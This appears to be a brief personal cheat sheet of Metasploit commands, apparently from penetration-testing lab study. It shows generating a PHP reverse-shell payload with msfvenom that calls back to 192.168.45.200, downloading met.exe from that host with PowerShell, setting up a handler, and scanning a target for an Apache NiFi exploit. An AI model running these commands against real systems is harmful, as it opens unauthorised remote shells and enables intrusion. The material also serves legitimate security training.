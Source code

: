 # Metasploit Framework

## Start Metasploit Framework

```bash
sudo msfdb run
```

## msfvenom

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.200 LPORT=443 -f raw -o rs.php
```

## handler

```bash
iwr -uri http://192.168.45.200/met.exe -Outfile met.exe
use exploit/multi/handler
set payload php/reverse_php
```

## capstone

```bash
db_nmap -A -p8080 192.168.228.225
search apache nifi
set target 1
```

